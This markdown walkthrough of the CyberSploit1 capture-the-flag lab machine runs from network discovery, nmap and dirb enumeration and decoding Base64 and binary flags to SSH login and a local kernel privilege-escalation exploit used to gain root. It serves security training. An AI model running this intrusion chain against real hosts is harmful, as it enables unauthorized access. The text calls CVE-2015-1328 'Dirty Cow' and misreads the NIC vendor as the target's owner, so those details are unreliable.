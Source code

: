 # CyberSploit1-Walkthrough
This is a step-by-step walkthrough for the CyberSploit1 machine. It includes network discovery, service enumeration, hidden file identification, privilege escalation, and flag retrieval.

## 1. Target Discovery
**Tool Used**: `netdiscover`

```bash
netdiscover
```

**Identified IP:**
```
192.168.21.139
```
This IP belongs to the target machine (PCS Systemtechnik GmbH).

---

## 2. Service Enumeration
**Tool Used**: `nmap`

```bash
nmap -sV -sC 192.168.21.139 -Pn
```

**Open Ports:**
- 22/tcp – SSH (OpenSSH 5.9p1)
- 80/tcp – HTTP (Apache 2.2.22)

---

## 3. Web Enumeration
**Accessed** `http://192.168.21.139` in browser.
- Page showed: "Hello Pentester!"
- Source code revealed username: `itsskv`

---

## 4. Directory Bruteforce
**Tool Used**: `dirb`

Discovered: `/robots.txt`

**Contents:**
```
R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9
```

**Decoded via dcode.fr (Base64):**
```
Flag1: cybersploit{youtube.com/c/cybersploit}
```

---

## 5. SSH Login
```bash
ssh itsskv@192.168.21.139
# Password: cybersploit{youtube.com/c/cybersploit}
```
**Login Successful.**

---

## 6. Local Flag Access
Found file: `flag2.txt`
Used:
```bash
cat flag2.txt
```
**Binary Text:**
```
01100111 01101111 ...
```
Decoded using [cryptii.com](https://cryptii.com/) (binary to ASCII):
```
flag2: cybersploit{https:t.me/cybersploit1}
```

---

## 7. Privilege Escalation
**Checked Kernel Version:**
```bash
uname -a
```
Output:
```
3.13.0-32-generic
```

**Found Exploit:** CVE-2015-1328 (Dirty Cow vulnerability)
- Uploaded exploit to `/tmp` as `exploit.c`

**Compiled and Executed:**
```bash
gcc exploit.c -o exploit
./exploit
```
**Gained Root Shell.**

---

## 8. Final Flag
Navigated to `/root` folder:
```
flag3: cybersploit{Z3X21CW42C4 many many congratulations !}
```

---

## Summary
- **Flag1**: `cybersploit{youtube.com/c/cybersploit}`
- **Flag2**: `cybersploit{https:t.me/cybersploit1}`
- **Flag3**: `cybersploit{Z3X21CW42C4 many many congratulations !}`

---

## User Identified
- **Username**: `itsskv`

---

## Note
This walkthrough was performed on a local network and is intended for educational purposes only. Do not attempt to access or exploit systems without explicit permission.

